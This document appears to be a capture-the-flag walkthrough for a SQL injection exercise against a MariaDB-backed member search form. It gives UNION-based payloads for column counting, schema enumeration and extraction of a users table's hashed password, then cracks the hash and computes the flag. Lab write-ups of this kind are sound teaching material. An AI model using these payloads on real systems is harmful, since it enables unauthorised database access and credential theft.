

# 05 - SQL Injection

## Walkthrough

### 1. Detect the Vulnerability

Inject a single quote `'` into the input field SEARCH MEMBER ID. The server returns a **SQL Syntax Error**, which confirms:
- There is a SQL injection vulnerability
- The backend is running **MariaDB**

---

### 2. Find the Number of Columns (UNION Attack)

To perform a UNION-based attack, both SELECT statements must return the same number of columns.
Test by incrementing the number of `NULL` values until the error disappears:

```sql
1 UNION SELECT NULL
1 UNION SELECT NULL, NULL
1 UNION SELECT NULL, NULL, NULL
```

Stop when the error `"The used SELECT statements have a different number of columns"` disappears —
that tells you the exact column count.

---

### 3. Enumerate the Database Structure

Since we are on MariaDB, `information_schema` is the central metadata repository that contains
information about all databases, tables, columns, and privileges on the server.

**List all table names and their column names:**

```sql
1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS;
```

**List all schemas (namespaces) and their table names:**

```sql
1 UNION SELECT table_schema, table_name FROM information_schema.tables;
```

> `table_schema` is the namespace/folder that groups tables together.
> A single schema can contain multiple tables.

---

### 4. Extract the Flag

The flag data is located in the `users` table inside the `Member_Sql_Injection` schema.
Retrieve it with:

```sql
1 UNION SELECT commentaire, countersign FROM Member_Sql_Injection.users;
```

Or simply:

```sql
1 UNION SELECT commentaire, countersign FROM users;
```

---

### 5. Decrypt and Format the Flag

The `commentaire` column gives the following instructions:

> **Decrypt this password → lower all the chars → SHA256 it and it's good!**

Follow these steps:

| Step | Value |
|------|-------|
| Hash from `countersign` | `5ff9d0165b4f92b14994e5c685cdce28` |
| Decrypt (MD5) via CrackStation | `FortyTwo` |
| Lowercase | `fortytwo` |
| SHA256 hash | `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5` |

The final SHA256 hash is the **flag**.

---

## Summary

```
Detect injection → Find column count → Enumerate schema → Extract data → Decrypt flag
```

## Screenshot
 
